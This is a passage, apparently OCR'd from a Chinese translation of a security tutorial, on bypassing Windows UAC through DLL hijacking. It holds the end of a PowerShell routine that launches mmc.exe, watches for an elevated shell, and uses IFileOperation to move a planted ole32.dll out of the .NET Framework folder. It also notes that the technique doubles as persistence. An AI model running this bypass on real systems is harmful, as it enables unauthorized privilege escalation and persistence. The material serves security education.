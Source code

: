    echo "`n[?] Executing mmc.."
    IEX $($env:SystemRoot + '\System32\mmc.exe gpedit.msc')
     
    # Move Yamabiko back to %tmp% after it loads to avoid infinite shells!
    while ($true) {
    $PS_Count = @(Get-Process -Name powershell).Count
    if ($PS_Count -gt $PS_InitCount) {
    try {
    # x32/x64 .NET foler
    if ($x64) {
    $IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework64\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
    } else {
    $IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
    }
    $IFileOperation.PerformOperations()
    break
    } catch {
    # Sometimes IFileOperation throws an exception
    # when executed twice in a row, just rerun..
    }
    }
    }
     
    # Clean-up
    echo "[!] UAC artifact: $($env:Temp + '\ole32.dll')`n"
    }

案例结束，下面的屏幕截图演示了在Windows 8（x64）和Windows 10（x32）上的绕过。

### Win8 x64 ###

![](http://www.fuzzysecurity.com/tutorials/images/UAC_10.png)

### Win10 x32 ###

![](http://www.fuzzysecurity.com/tutorials/images/UAC_11.png)

从另一方面来说，这是一个相当不错的持久化机制。删除ole32在.NET框架文件夹中封装的DLL，计划使用.NET在启动/空闲时运行任何事情。

## 0x06 总结 ##

如果你做到这一步，我想你就能明白为什么微软不承认UAC绕过。老实说我认为，让UAC步入正轨的最好的方法是积极的补丁机制。
